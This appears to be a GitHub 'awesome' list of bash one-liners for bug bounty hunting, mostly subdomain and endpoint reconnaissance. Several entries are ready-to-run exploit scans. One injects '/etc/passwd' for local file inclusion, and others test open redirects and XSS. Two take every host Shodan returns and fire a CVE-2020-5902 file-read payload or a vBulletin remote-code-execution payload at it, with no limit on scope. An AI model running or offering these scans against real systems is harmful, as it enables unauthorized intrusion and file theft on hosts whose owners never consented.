 # Awesome One-liner Bug Bounty [![Awesome](https://awesome.re/badge-flat2.svg)](https://awesome.re)
> A collection of awesome one-liner scripts especially for bug bounty.

This repository stores and houses various one-liner for bug bounty tips provided by me as well as contributed by the community. Your contributions and suggestions are heartily♥ welcome.

---

### Local File Inclusion
> @dwisiswant0

```bash
gau $1 | gf lfi | qsreplace "/etc/passwd" | xargs -I % -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'
```

### Open-redirect
> @dwisiswant0

```bash
export LHOST="http://localhost"; gau $1 | gf redirect | qsreplace "$LHOST" | xargs -I % -P 25 sh -c 'curl -Is "%" 2>&1 | grep -q "Location: $LHOST" && echo "VULN! %"'
```

### XSS
> @cihanmehmet

```bash
gospider -S targets_urls.txt -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'| grep "=" | qsreplace -a | dalfox pipe -o result.txt
```

### CVE-2020-5902
> @Madrobot_

```bash
shodan search http.favicon.hash:-335242539 "3992" --fields ip_str,port --separator " " | awk '{print $1":"$2}' | while read host do ;do curl --silent --path-as-is --insecure "https://$host/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd" | grep -q root && \printf "$host \033[0;31mVulnerable\n" || printf "$host \033[0;32mNot Vulnerable\n";done
```

### vBulletin 5.6.2 - 'widget_tabbedContainer_tab_panel' Remote Code Execution
> @Madrobot_

```bash
shodan search http.favicon.hash:-601665621 --fields ip_str,port --separator " " | awk '{print $1":"$2}' | while read host do ;do curl -s http://$host/ajax/render/widget_tabbedcontainer_tab_panel -d 'subWidgets[0][template]=widget_php&subWidgets[0][config][code]=phpinfo();' | grep -q phpinfo && \printf "$host \033[0;31mVulnerable\n" || printf "$host \033[0;32mNot Vulnerable\n";done;
```

### Find JS Files
> @D0cK3rG33k

```bash
assetfinder site.com | gau|egrep -v '(.css|.png|.jpeg|.jpg|.svg|.gif|.wolf)'|while read url; do vars=$(curl -s $url | grep -Eo "var [a-zA-Zo-9_]+" |sed -e 's, 'var','"$url"?',g' -e 's/ //g'|grep -v '.js'|sed 's/.*/&=xss/g'):echo -e "\e[1;33m$url\n" "\e[1;32m$vars";done
```

### Extract Endpoints from JS File
> @renniepak

```bash
cat main.js | grep -oh "\"\/[a-zA-Z0-9_/?=&]*\"" | sed -e 's/^"//' -e 's/"$//' | sort -u
```

### Get CIDR & Orgz from Target Lists
> @steve_mcilwain

```bash
for DOMAIN in $(cat domains.txt);do echo $(for ip in $(dig a $DOMAIN +short); do whois $ip | grep -e "CIDR\|Organization" | tr -s " " | paste - -; d
one | uniq); done
```

### Get Subdomains from RapidDNS.io
> @andirrahmani1

```bash
curl -s "https://rapiddns.io/subdomain/$1?full=1#result" | grep "<td><a" | cut -d '"' -f 2 | grep http | cut -d '/' -f3 | sed 's/#results//g' | sort -u
```

### Get Subdomains from BufferOver.run
> @_ayoubfathi_

```bash
curl -s https://dns.bufferover.run/dns?q=.DOMAIN.com |jq -r .FDNS_A[]|cut -d',' -f2|sort -u
```

### Find All Allocated IP ranges for ASN given an IP address
> wains.be

```bash
whois -h whois.radb.net -i origin -T route $(whois -h whois.radb.net $1 | grep origin: | awk '{print $NF}' | head -1) | grep -w "route:" | awk '{print $NF}' | sort -n
```


###Custom Wordlist
> Tomnonnom

```bash
gau domain.com| unfurl -u keys | tee -a wordlist.txt ; gau domain.com | unfurl -u paths|tee -a ends.txt; sed 's#/#\n#g' ends.txt  | sort -u | tee -a wordlist.txt | sort -u ;rm ends.txt  | sed -i -e 's/\.css\|\.png\|\.jpeg\|\.jpg\|\.svg\|\.gif\|\.wolf\|\.bmp//g' wordlist.txt
```


```bash
cat domains.txt | httprobe | xargs curl | tok | tr '[:upper:]' '[:lower:]' | sort -u | tee -a words.txt  
```


###Juicy Information
> Prial Islam Khan

```bash
for sub in $(cat domains.txt);do /usr/bin/gron "https://otx.alienvault.com/otxapi/indicator/hostname/url_list/$sub?limit=100&page=1" | grep "\burl\b" | gron --ungron | jq |egrep -wi 'url' | awk '{print $2}' | sed 's/"//g'| sort -u | tee -a file.txt  ;done
```





